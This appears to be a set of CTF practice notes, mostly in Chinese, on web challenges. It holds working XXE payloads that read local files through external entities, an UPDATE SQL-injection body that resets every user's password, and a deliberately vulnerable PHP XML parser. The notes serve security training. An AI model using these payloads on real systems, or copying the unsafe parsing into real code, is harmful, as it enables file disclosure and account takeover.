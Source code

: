 ## xml

[NCTF 2019]Fake XML

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

## update注入

[HUBUCTF 2022 新生赛]ezsql

`nickname=hhh&age=23, password=0x3230326362393632616335393037356239363462303731353264323334623730%23`

需要多次测试找到注入点,还有就是为什么这样能修改所有人的密码

## go也有ssti

后日谈

## php提前触发gc

prize_p1
`unset`可以提前回收,当对象为`NULL`的时候也可以提前回收

注意修复`phar`签名的时候用的是sha1还是sha256

## xxe

ctfshow web373-378

```php
// 允许加载外部实体
libxml_disable_entity_loader(false);
// xml文件来源于数据流
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
// 加载xml实体，参数为替代实体、加载外部子集
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
// 把 DOM 节点转换为 SimpleXMLElement 对象
    $creds = simplexml_import_dom($dom);
// 节点嵌套
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
```

payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
<ctfshow>&xxe;</ctfshow>
</creds>

another
```